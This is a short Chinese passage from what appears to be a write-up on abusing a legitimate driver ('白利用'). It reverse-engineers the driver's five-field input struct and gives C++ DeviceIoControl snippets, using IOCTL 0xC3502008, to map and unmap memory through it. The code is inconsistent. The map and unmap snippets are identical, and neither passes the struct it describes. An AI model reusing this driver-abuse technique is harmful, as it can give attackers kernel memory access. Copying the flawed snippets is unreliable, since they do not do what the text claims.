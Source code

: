 白利用：

通过函数中的变量初始化来看，一共接收了 5 个参数，分别为

1.  type 0x0
2.  size 0x4
3.  Adress 0x8
4.  Flag 0x10
5.  ViewSize 0x14

也就是说需要传入一个结构体：

```bash
typedef struct conn{

ULONG type;
ULONG size;
ULONG64 Address;
ULONG Flag;
ULONG viewSize;

}
```

那么建立映射的代码则如下所示：

```bash
ULONG64 Input = address;

       ULONG64 Output[2] = { 0 };



       ULONG returned = 0;



       DeviceIoControl(hHandle, 0xC3502008, reinterpret_cast<LPVOID>(&Input), 
sizeof(Input),

              reinterpret_cast<LPVOID>(Output), sizeof(Output), &returned, 
NULL);



       return Output[0];
```

取消映射：

```bash
ULONG64 Input = address;

       ULONG64 Output[2] = { 0 };



       ULONG returned = 0;



       DeviceIoControl(hHandle, 0xC3502008, reinterpret_cast<LPVOID>(&Input), 
sizeof(Input),

              reinterpret_cast<LPVOID>(Output), sizeof(Output), &returned, 
NULL);


```